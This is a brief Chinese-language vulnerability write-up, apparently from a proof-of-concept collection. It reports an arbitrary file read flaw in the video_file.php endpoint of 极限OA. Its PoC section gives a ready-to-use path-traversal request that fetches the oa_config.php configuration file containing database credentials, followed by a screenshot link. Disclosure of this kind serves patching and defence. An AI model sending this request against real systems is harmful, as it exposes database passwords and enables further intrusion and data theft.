 ## 极限OA接口video_file.php存在任意文件读取漏洞

极限OA video_file.php 处存在任意文件读取，攻击者可以从其中获取网站路径和数据库账号密码等敏感信息进一步攻击。

## poc

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php 
```

![image-20240621191009647](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211910698.png)